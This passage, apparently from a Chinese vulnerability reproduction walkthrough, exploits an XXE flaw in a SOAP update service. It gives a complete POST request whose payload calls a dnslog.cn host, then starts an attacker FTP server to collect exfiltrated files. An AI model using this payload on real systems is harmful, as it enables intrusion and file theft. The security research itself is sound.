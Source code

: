 ![image](https://user-images.githubusercontent.com/84888757/223066758-13620359-6c99-4f7b-9758-dc2ed50c15b2.png)

到插件 `Wsdler` 里去查看，再转发到 `Repeater` 中进行发送。

![image](https://user-images.githubusercontent.com/84888757/223066816-ca74087d-7fa3-47ce-9fd0-91efab34fda7.png)

![image](https://user-images.githubusercontent.com/84888757/223066851-c640e9b8-f411-49b0-9095-7d05847da874.png)



## 2.3 dnslog验证
我们替换为 `xxe` 的 `payload`，用 `dnslog` 证明一下
```
POST http://192.168.50.13:8888/uapws/service/nc.uap.oba.update.IUpdateService HTTP/1.1
Accept-Encoding: gzip,deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: "urn:getResult"
Content-Length: 416
Host: 192.168.50.13:8888
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.5.5 (Java/16.0.1)

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:iup="http://update.oba.uap.nc/IUpdateService">
   <soapenv:Header/>
   <soapenv:Body>
      <iup:getResult>
         <!--Optional:-->
         <iup:string><![CDATA[
<!DOCTYPE foo [<!ENTITY % aaa SYSTEM "http://666.04bx1e.dnslog.cn">%aaa;]>
<xxx/>]]></iup:string>
      </iup:getResult>
   </soapenv:Body>
</soapenv:Envelope>
```

注意第一个 `% aaa` 的 `%` 和 `aaa` 之间是有空格的。

![image](https://user-images.githubusercontent.com/84888757/223006841-817a9b7e-c512-4ba5-8239-17702459e49f.png)



<div align=center ><img width="700" src="https://user-images.githubusercontent.com/84888757/223006871-2b35b2e5-4019-412f-a7c9-512777ade7bc.png" /></div>

## 2.4 文件读取利用
### 2.4.1 攻击机起一个FTP服务器
```bash
python3 FtpServer.py
```

这里是为了之后接收 `xxe` 打回来的服务器文件信息。

